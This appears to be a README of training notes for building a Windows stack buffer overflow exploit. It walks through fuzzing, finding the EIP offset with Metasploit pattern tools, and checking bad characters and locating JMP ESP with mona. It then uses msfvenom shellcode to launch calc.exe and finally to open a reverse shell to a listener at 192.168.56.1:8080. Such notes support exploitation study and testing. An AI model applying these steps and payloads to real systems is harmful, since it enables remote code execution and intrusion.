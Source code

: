 # Steps :
## 1. Crash the application
Fuzz it with 1-fuzzing.py until it crashes. Find out how it crashed and if needed send a buffer larger than the one that crashed it in order to make sure that there is at least 400 bytes of room for the payload after $ESP.

**Checklist :**
* EIP is overwritten
* At least the 400 bytes that follow $ESP are overwritten
 
**Result :**
* A payload length that crashes the application
## 2. Locate the bytes that overwrite the EIP
Use 2-location.py to send a payload the same size as the one that previously crashed the application but that contains a recognisable pattern :
```
/opt/metasploit/tools/exploit/pattern_create.rb -l $SIZE
```
__Avoiding bad characters :__ Use the -s option if needed

Find the offset of the bytes that overwrite the EIP :
```
/opt/metasploit/tools/exploit/pattern_offset.rb -l $SIZE -q 34694133
```
__Note :__ There is no need to change the EIP bytes' order when searching its offset.

**Result :** 
* The offset of the bytes that override the EIP

## 3. Find the bad characters
Use 3-badchars.py to send a buffer that, after the EIP, will contain all ASCII characters to check for bad characters.
Bad characters will either simply not appear on the stack or mangle the characters that follow them.
Mona can look for bad characters :
```
!mona bytearray
!mona compare -f bytearray.bin -a ADDRESS_WHERE_ASCII_CHARACTERS_START
```

**Checklist :** 
* All the characters that aren't listed as bad must properly appear on the stack

**Result :** 
* A list of bad characters

## 4. Pop calc
As a first exploit, popping calc.exe is a way to make sure that code can be executed in a way that is less error-prone than going straight for a reverse shell. Use 4-exploit-calc.py for this.

## 4.1 Find an address that contains a JMP ESP instruction
List the modules to find one that doesn't have ASLR and NX bits :
```
!mona modules
```

Find the hex equivalent of the desired instruction (e.g JMP ESP)
```
/usr/share/metasploit-framework/tools/exploit/nasm\_shell.rb
nasm > jmp esp
00000000 FFE4 jmp esp
```

Find the desired instruction :
```
!mona find -s "\xff\xe4" -m slmfc.dll
!mona jmp -r ESP
```
Chose one that does **not** contain a bad character.
In the exploit, it needs to be reversed because of **little-endianness** :
"5f 4a 35 8f" -> "\x8f\x35\x4a\x5f"

Then generate a payload with msfvenom :
```
msfvenom -p windows/exec CMD=calc.exe -f c -e "x86/shikata_ga_nai" -b "\x00\x0a\x0d"
```
If needed, wheck on the target if calc.exe is running using `tasklist` in an elevated command prompt.


**Checklist :**
* The address where JMP ESP is does not change when the program / host is restarted

**Result :**
* A working exploit that starts calc.exe


## 5. Get a reverse shell
Using 5-exploit.py and the information obtained in step 4, get a reverse shell.
To listen for the reverse shell :
```
ncat -lvnp 8080
```

To generate the exploit :
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=8080 -f c -e "x86/shikata_ga_nai" -b "\x00\x0a\x0d"
```

